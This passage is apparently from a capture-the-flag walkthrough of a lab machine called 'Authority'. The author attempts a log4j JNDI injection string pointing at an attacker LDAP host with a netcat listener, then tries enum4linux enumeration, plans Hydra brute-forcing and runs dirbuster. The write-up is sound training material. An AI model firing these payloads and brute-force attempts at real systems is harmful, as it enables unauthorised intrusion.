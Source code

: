 
<img src="assets/images/Authority/pwmgoogle.png"/>

This is really the only thing I can see from googling for exploits - it appears to be related to the **log4j** exploit. 

Lets try setting up a netcat listener
```
nc -lvnp 1389
```

And just putting this into the password field: 

```
${jndi:ldap://<attackerIP>:1389/a}
${jndi:ldap://10.10.14.3:1389/a}
```

Nada, same error message. Okay, better leave this for now and look for other low-hanging fruit. Time for some more enumeration. 

```
enum4linux 10.10.11.222
```

Getting a lot of access denied errors...

<img src="assets/images/Authority/enum4linux1.png"/>


And I get the same errors using the user account from the website
```
enum4linux 10.10.11.222 -u "svc_pwm" -p ""
```

Likely we'll need both a valid username and password to enumerate further using enum4linux. 

Maybe I *will* just start brute-forcing this password field...

In order to use Hydra to brute this password, I'll need some information about the request that is made when you hit "submit" on the password form. 

You *can* do this through the browsers development panel, but I prefer burp-suite just for ease of use. 

<img src="assets/images/Authority/burppassword1.png"/>

Ah, ouch it has a "number only used once" in the password POST request... meaning in order to brute this properly we'll need to get the new FormID from the page response. Which... isn't impossible, but might require more work than needed at this stage. Lets check everything else and come back to this later. 

Lets do a dirbuster on the website and see if there are any pages we can see we weren't intended to: 

<img src="assets/images/Authority/dirbuster1.png"/>


And then at the same time lets try to see if we can get *any* extra information from this machine just using the username that we found earlier.
